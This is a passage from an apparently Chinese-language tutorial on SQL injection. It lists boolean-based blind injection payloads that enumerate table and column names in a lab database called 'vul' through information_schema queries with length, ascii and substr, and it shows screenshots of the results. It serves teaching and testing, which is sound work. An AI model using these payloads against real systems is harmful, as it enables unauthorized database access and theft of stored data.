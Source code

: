 ```sql
and (select count(*) from information_schema.tables where table_schema = 'vul')>2 #
```



## 3.5获取表名

```sql
and length((select table_name from information_schema.tables where table_schema = 'vul' limit 1,1))>2#
and ascii(substr((select table_name from information_schema.tables where table_schema = 'vul' limit 1,1),1,1))>120#
```

![image-20220603154647476](sql注入剖析.assets/image-20220603154647476.png)

## 3.6 获取列信息

```sql
and (select count(*) from information_schema.columns where table_schema = 'vul' and table_name = 'users')=4#
and length((select column_name from information_schema.columns where table_schema = 'vul' and table_name = 'users' limit 0,1))=2#
```

![image-20220603161812580](sql注入剖析.assets/image-20220603161812580.png)

![image-20220603162147215](sql注入剖析.assets/image-20220603162147215.png)
